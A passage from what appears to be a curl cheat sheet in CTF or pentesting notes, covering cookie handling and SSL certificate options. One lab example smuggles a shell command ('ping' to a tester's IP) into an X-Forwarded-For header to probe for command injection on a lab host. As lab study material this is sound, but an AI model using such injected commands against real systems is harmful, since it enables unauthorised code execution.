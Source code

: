 {% code title="Save Cookie in to a file" overflow="wrap" %}
```bash
curl -X POST -d "flag=UHC{F1rst_5tep_2_Qualify}" -c cookies.txt -v http://10.10.11.128/challenge.php
```
{% endcode %}

{% code title="Use cookie from the file" overflow="wrap" %}
```bash
curl -H "X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.16.7;" -b cookies.txt -v http://10.10.11.128/firewall.php
```
{% endcode %}

***

### <mark style="color:purple;">Certificates</mark>

{% code title="Skip SSL Certificate validation" %}
```bash
curl -k -v https://example.com
```
{% endcode %}

{% code title="Specify a CA file" %}
```bash
curl --cacert /path/to/ca-cert.pem https://secure.example.com
```
{% endcode %}

{% code title="Specify a CA directory" %}
```bash
curl --capath /path/to/cacerts https://secure.example.com
```
{% endcode %}

{% code title="Specify a Client Certificate" %}
```bash
curl -E /path/to/client-cert.pem https://secure.example.com
```
{% endcode %}

{% code title="Specify the Certificate format" overflow="wrap" %}
```bash
curl -E /path/to/client-cert.pem --cert-type PEM|DER|ENG https://secure.example.com
```
{% endcode %}

{% code title="Skip SSL + verbose + Client Certificate" %}
```bash
curl -k -v -E /path/to/client_certificate.pem https://example.com
```
{% endcode %}

{% code title="Skip SSL + Verbose + Specific Certificate" %}
```bash
curl -k -v --cacert /path/to/ca_certificate.crt https://example.com
```
{% endcode %}
